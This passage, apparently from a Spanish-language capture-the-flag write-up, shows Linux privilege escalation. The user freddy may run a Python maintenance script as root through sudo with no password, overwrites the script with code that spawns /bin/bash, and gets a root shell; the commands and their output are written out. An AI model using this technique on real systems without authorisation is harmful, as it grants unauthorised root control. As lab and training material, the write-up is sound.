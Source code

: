 ```terminal
$ sudo -l
Matching Defaults entries for freddy on c54a7f75d173:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User freddy may run the following commands on c54a7f75d173:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

El archivo `/opt/maintenance.py` es propiedad de freddy y posee permisos de escritura.

```terminal
$ ls -al /opt/maintenance.py
-rw-r--r-- 1 freddy freddy 35 Mar 29  2024 /opt/maintenance.py
```

Esto permite sobreescribir su contenido e inyectar comandos arbitrarios. Reemplazo el script por una línea que lanza una shell y al ejecutar el script con `sudo`, obtengo una shell como `root`.

```terminal
$ echo -e 'import os\nos.system("/bin/bash")' > /opt/maintenance.py
$ sudo /usr/bin/python3 /opt/maintenance.py

# id
uid=0(root) gid=0(root) groups=0(root)
```
